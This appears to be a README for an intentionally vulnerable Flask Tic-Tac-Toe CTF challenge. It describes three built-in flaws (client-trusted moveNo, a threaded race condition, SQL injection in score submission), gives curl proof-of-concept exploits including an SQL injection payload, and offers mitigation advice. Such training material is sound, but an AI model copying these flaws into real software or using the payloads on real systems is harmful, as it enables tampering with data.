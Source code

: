 # Tic-Tac-Toe CTF — Multi-stage Challenge

A lightweight, intentionally vulnerable Flask-based Tic-Tac-Toe / connect-four style challenge designed for learning and practice in web security and CTF exploitation. The challenge contains three parts (levels) with increasing complexity and different vulnerability classes:

* **Part 1 — 3×3 Tic-Tac-Toe**: client-controlled logic allows early-win shortcut.
* **Part 2 — 10×10 connect-4-style**: race condition via threaded delayed AI move.
* **Part 3 — 10×10 + scoring**: SQL injection in score submission.

This repository is meant for hosting the challenge binary/source for CTF events, practice, or educational use. Do **not** deploy this code to production.

---

## Contents

```
README.md
app.py             # Flask application (challenge)
static/             # static assets for front-end (if any)
uno.html, dos.html, tres.html  # level pages
scores.db          # sqlite DB created at runtime
```

---

## Quick start (local)

Requirements:

* Python 3.8+
* `pip` and a virtualenv are recommended

Install & run:

```bash
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt  # or: pip install flask flask-cors
python app.py
```

By default the app listens on `0.0.0.0:5000`. Open `http://localhost:5000/` in your browser.

---

## Endpoints

### Part 1 (3×3)

* `GET /new_game_1` → creates a new 3×3 game and returns `{game_id, board}`
* `POST /move_1` → body: `{game_id, row, col, moveNo}` — play a move
* `POST /reset_1` → body: `{game_id}` — reset board

### Part 2 (10×10)

* `GET /new_game_2` → creates a new 10×10 game
* `POST /move_2` → body: `{game_id, row, col}` — play a move, AI responds in a delayed thread
* `GET /get_board_2?game_id=<id>` → read current board state
* `POST /reset_2` → reset board

### Part 3 (10×10 + scoring)

* `GET /new_game_3` → creates a new 10×10 game and initializes score
* `POST /move_3` → body: `{game_id, row, col}` — play a move
* `POST /reset_3` → reset board and score
* `POST /submit_score_3` → body: `{game_id, username}` — submit score (stored in SQLite)

---

## Intended vulnerabilities (for CTF / learning)

1. **Client-trusted parameters (Part 1)** — `moveNo` is trusted by the server to gate whether your move counts as an early move that can produce a flag. This is a logic trust issue and can be trivially abused by sending a crafted JSON payload.

2. **Race condition / TOCTOU (Part 2)** — The AI performs a delayed move in a background thread (`time.sleep(0.015)`), which creates a small time window between the player's move and the AI's execution. Reading or interacting with the board in that window allows exploiting a time-of-check/time-of-use condition.

3. **SQL injection (Part 3)** — The username in `/submit_score_3` is interpolated directly into an SQL `INSERT` string without proper parameterization. Although a small blacklist is present, it is insufficient to stop an injection.

---

## Example exploit PoCs (cURL)

> These are spoilers intended for collaborators or CTF writeups. Keep them in a `SPOILERS` section or remove before releasing the challenge in a live environment.

### Part 1 — fake `moveNo`

```bash
# create game
curl -s http://localhost:5000/new_game_1 | jq
# then post winning moves with moveNo set to 0
curl -X POST -H 'Content-Type: application/json' -d '{"game_id":"<id>","row":0,"col":0,"moveNo":0}' http://localhost:5000/move_1
```

The server trusts `moveNo` and will consider early wins eligible for the part-1 flag.

### Part 2 — race window

```bash
# create game
GAME_ID=$(curl -s http://localhost:5000/new_game_2 | jq -r .game_id)
# play a move that creates a winning line, then immediately read the board
curl -X POST -H 'Content-Type: application/json' -d "{\"game_id\": \"$GAME_ID\", \"row\": 1, \"col\": 1}" http://localhost:5000/move_2 &
# quickly query board before AI thread runs
curl "http://localhost:5000/get_board_2?game_id=$GAME_ID" | jq
```

Timing matters — the AI moves in a separate thread after a short `sleep`, so rapid requests increase the chance to hit the pre-AI state.

### Part 3 — SQL injection

```bash
# after winning enough rounds so your score > 0, submit a crafted username
curl -X POST -H 'Content-Type: application/json' -d '{"game_id":"<id>", "username":"pwned\', 999)--"}' http://localhost:5000/submit_score_3
```

The injected payload manipulates the SQL `INSERT` and can store an artificially high score, which the app checks to decide whether to reveal the flag.

---

## Hardening / mitigation suggestions

* **Never trust client-side logic**. Validate and compute game state exclusively on the server. Remove client-provided `moveNo` or enforce it server-side.
* **Avoid background threads for game-critical logic**. Use synchronous moves or implement robust locking (mutex) around shared state, or move the AI to a single-threaded event loop to remove race windows.
* **Use parameterized SQL queries** (prepared statements) instead of f-strings. Example with `sqlite3`:

```python
cursor.execute("INSERT INTO scores (user, score) VALUES (?, ?)", (username, score))
```

* **Limit surface & sanitize inputs** — apply length restrictions, allowlist usernames, and better error handling.

## Contribution & Contact

If you want edits, tests, or a polished writeup for the CTF platform, open an issue or submit a PR.

---

*Created for CTF practice and education. Use responsibly.*
